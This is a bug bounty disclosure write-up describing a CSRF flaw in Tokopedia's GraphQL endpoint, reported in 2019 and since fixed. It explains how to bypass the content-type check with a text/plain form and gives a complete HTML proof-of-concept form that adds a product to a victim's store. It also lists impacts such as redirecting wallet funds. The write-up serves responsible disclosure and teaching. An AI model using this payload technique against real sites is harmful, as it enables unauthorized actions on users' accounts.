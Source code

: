 ```yaml
---
layout: post
title: "[TOKOPEDIA] SITE-WIDE CSRF THROUGH GRAPHQL REQUEST"
categories: [bugbounty]
tags: [tokopedia, bugbounty]
permalink: /bugbounty/tokopedia/site-wide-csrf-graphql/
description: Recently, I have found security vulnerability in Tokopedia Website that allows CSRF in some critical action because of improper validation of content type (JSON) of body request that sent to the server. This action is possible because Tokopedia implementation of GraphQL is using session cookie instead of authentication key in header.
---
```


## What is Cross Site Request Forgery ?
<hr>
Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request.<br><br>


## What is Graph Query Language ?
<hr>
GraphQL is a query language for APIs and a runtime for fulfilling those queries with your existing data. GraphQL provides a complete and understandable description of the data in your API, gives clients the power to ask for exactly what they need and nothing more, makes it easier to evolve APIs over time, and enables powerful developer tools.<br><br>

## Proof of Concept
<hr>

When visiting [https://m.tokopedia.com](https://m.tokopedia.com/), most of the request is using ```GraphQL``` endpoint in [https://gql.tokopedia.com](https://gql.tokopedia.com/).Here is the example request to add product to wishlist :

![Example Request Add Wishlist](/assets/media/example_request_add_wishlist.png)
<br><br>
When looking at the request in burpsuite, i notice something interesting.The request to ```GraphQL``` endpoint is not using an authentication key or token in the request header.Usually, ```GraphQL``` is more like ```API``` style that use authentication key to get data, but Tokopedia seems to implement the request to ```GraphQL``` endpoint using session and cookie as authentication.<br>
<br>
Indeed, before make an actual request to get the data, it will check the authentication to ```GraphQL``` using this request :

![Authentication GraphQL](/assets/media/request_check_auth_graphql.png)
<br><br>
I'm thinking if we can somehow perform a CSRF attack to the ```GraphQL``` endpoint.Then i try to modify request data in burpsuite.Several change that i made to the request :
1. Remove the ```Referer```
2. Set ```Origin``` to ```null```
3. Set ```content-type``` to ```text/plain```
4. Append ```"="``` to the end of body request

Appending ```"="``` to the end of the body request is to test if we can make a request of ```JSON``` data using post form in html and using enctype ```text/plain```.After modifying the request, test to send the request. (Example image below is request to change profile image)

![Modified Request](/assets/media/example_request_change_picture.png)
<br><br><br>
<img src="/assets/media/cat_shock.jpeg" class="media_center"/>
<h4 align="center"><b>And it works !</b></h4>
<br><br>

We can then craft a simple html to make a CSRF attack (This POC use sample request of uploading a product to the store) : 
```html
<html>
    <body>
    <h1>Site Wide CSRF GraphQL : Add Product to Target User</h1>
    <form action="https://gql.tokopedia.com/" method="POST" enctype="text/plain">
        <input type="hidden" name='[{"operationName":"AddProductMutation","variables":{"input":{"product_brand":{"brand_id":0,"name":""},"product_catalog":{"catalog_id":0},"product_category":{"category_id":891},"product_condition":1,"product_description":"Attacker","product_etalase":{"etalase_id":17561860},"product_free_return":false,"product_min_order":1,"product_must_insurance":false,"product_name":"Added by Attacker","product_picture":[{"from_ig":0,"description":"","x":1,"y":1,"file_path":"product-1/2019/2/6/44628626","file_name":"44628626_6070a039-2f84-4d8c-99b8-c3d68083ebf7_980_759.png"}],"product_preorder":{"preorder_process_time":0,"preorder_status":0,"preorder_time_unit":1},"product_price":100,"product_price_currency":1,"product_sku":"","product_status":1,"product_stock":0,"product_video":[],"product_weight":100,"product_weight_unit":1,"product_wholesale":[]}},"query":"mutation AddProductMutation($input: AddProductInputType) {\n  addProduct(input: $input) {\n    header {\n      messages\n      reason\n      __typename\n    }\n    data {\n      product_id\n      product_name\n      product_alias\n      product_condition\n      product_description\n      product_last_update_price\n      product_min_order\n      product_max_order\n      product_must_insurance\n      product_price\n      product_price_currency\n      product_status\n      product_stock\n      product_weight\n      product_weight_unit\n      product_url\n      product_category {\n        category_id\n        __typename\n      }\n      product_etalase {\n        etalase_id\n        etalase_name\n        __typename\n      }\n      product_position {\n        position\n        __typename\n      }\n      product_shop {\n        shop_id\n        shop_name\n        shop_domain\n        shop_url\n        __typename\n      }\n      product_free_return\n      product_sku\n      product_gtin\n      product_name_editable\n      __typename\n    }\n    errors\n    __typename\n  }\n}\n"}]' />
        <input type="submit" value="Click Me !"/>
    </form>
    </body>
</html>
```

In above crafted html, is to make a CSRF request to add product to the store (by just modifying the ```etalase_id``` to id that the targeted store own).When a targeted user or store account visit webpage that hosting this crafted html and click the submit button (or we can make this auto submit using javascript), the CSRF request will be fired and a product is added to the targeted store without user consent.<br><br>


## Impact
<hr>

Seeing that request in [https://m.tokopedia.com](https://m.tokopedia.com/) mostly using ```GraphQL```, there is several impact from this security issue :
1. Change user account profile picture
2. Add, edit and delete product from the store
3. Add, edit and delete address from user account
4. Change profile picture, description, status, slogan of the store
5. Add, edit and delete send address of the store
6. Add, edit and delete store note
7. Stealing tokopedia wallet by adding attacker bank account to targeted user account
8. Perform anything about ```order``` action behalf of the user
9. etc

That's all from my first blog post, see you again in my next blog post (hopefully).<br>
Happy Bug Hunting !

## Timeline

<hr>
<table align="center">
  <thead>
    <tr>
      <th>Timestamp</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>February 6th 2019</td>
      <td>Report Submited</td>
    </tr>
    <tr>
      <td>February 6th 2019</td>
      <td>Report is valid and marked as high severity</td>
    </tr>
    <tr>
      <td>March 25th 2019</td>
      <td>Check the vulnerability is fixed and follow up to tokopedia team</td>
    </tr>
    <tr>
      <td>March 25th 2019</td>
      <td>Tokopedia confirm the bug has been fixed</td>
    </tr>
    <tr>
      <td>May 27th 2019</td>
      <td>Reward sent</td>
    </tr>
    <tr>
      <td>July 15th 2019</td>
      <td>Tokopedia Agree to Disclose The Bug</td>
    </tr>
  </tbody>
</table>











